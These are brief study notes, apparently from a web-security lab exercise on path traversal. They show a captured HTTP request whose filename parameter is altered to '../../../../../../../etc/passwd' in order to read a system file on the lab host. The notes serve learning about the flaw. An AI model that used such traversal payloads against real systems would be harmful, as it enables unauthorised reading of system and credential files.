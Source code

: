 
`../../` thingy
also `..\..\..\` on windows

we can capture a request in burp and change the filename, ex:
```http
GET /image?filename=../../../../../../../etc/passwd HTTP/2
Host: 0a0c00910333b1fd84bdc457008e009f.web-security-academy.net
Cookie: session=DlkuFbm92oQoTwBEUo4GW851TweHmoy5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0c00910333b1fd84bdc457008e009f.web-security-academy.net/product?productId=15
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Dnt: 1
Sec-Gpc: 1
Te: trailers


```

